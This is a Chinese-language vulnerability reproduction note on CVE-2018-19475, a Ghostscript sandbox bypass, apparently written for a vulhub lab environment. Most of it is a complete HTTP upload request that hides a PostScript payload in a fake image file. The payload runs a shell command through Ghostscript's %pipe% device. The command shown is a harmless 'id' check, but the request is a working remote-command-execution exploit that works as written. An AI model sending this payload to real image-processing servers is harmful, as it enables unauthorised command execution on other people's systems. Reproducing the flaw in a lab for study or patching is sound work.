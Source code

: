 （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

二、漏洞影响
------------

Ghostscript 9.26之前版本

三、复现过程
------------

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

    POST /index.php HTTP/1.1
    Host: target
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
    Content-Length: 279

    ------WebKitFormBoundaryukZmnyhO
    Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
    content-Type="image/png"

    %!PS
    0 1 300367 {} for
    {save restore} stopped {} if
    (%pipe%id > /tmp/success && cat /tmp/success) (w) file
    ------WebKitFormBoundaryukZmnyhO--

命令已成功执行：

![](resource/(CVE-2018-19475)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-19475/
